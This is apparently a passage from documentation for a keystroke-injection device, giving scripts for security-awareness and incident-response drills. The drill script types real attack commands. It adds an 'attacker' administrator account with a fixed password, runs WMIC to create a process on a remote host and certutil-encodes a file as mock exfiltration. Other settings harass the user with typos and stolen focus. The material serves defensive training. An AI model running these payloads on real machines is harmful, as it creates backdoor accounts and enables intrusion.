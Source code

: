 ```bash
GASLIGHT_TYPO
GASLIGHT_CAPS_TOGGLE 60000 180000
GASLIGHT_FOCUS_STEAL 120000 300000
GASLIGHT_NOTIFICATION 180000 420000
GASLIGHT_PROFILE_END

# Chaos mode for unpredictable training
CHAOS_ON
BUTTON2_DEF
STRING Did you notice this activity?
ENTER
DELAY 2000
STRING Report suspicious behavior to IT
ENTER
END_BUTTON2
```

### Scenario 4: Incident Response Drill

**Objective:** Test IR team capabilities with realistic attack simulation

```bash
# Multi-phase attack simulation
SET_XOR_KEY IRDrill2024

# Phase 1: Initial detection triggers
BUTTON_DEF
DELAY 10000  # Allow IR team to get situated
STRING [SIMULATION] Stage 1: Initial Compromise Detected
ENTER
DELAY 3000
LOLBAS_CMD "net user attacker P@ssw0rd! /add && net localgroup administrators attacker /add"
ENTER
DELAY 5000
STRING [SIMULATION] Stage 2: Privilege Escalation Successful
ENTER
END_BUTTON

# Phase 2: Persistence and lateral movement
BUTTON2_DEF
DELAY 15000  # Mid-drill activation
STRING [SIMULATION] Stage 3: Lateral Movement Detected
ENTER
DELAY 2000
LOLBAS_WMIC /node:192.168.1.50 process call create "cmd.exe /c whoami"
ENTER
DELAY 5000
STRING [SIMULATION] Stage 4: Data Exfiltration Attempt
ENTER
DELAY 2000
LOLBAS_CERTUTIL -encode C:\\important.docx C:\\encoded.txt
ENTER
END_BUTTON2

SCHEDULE 300000 "STRING [SIMULATION] Stage 5: Drill Complete - Please Debrief"
```
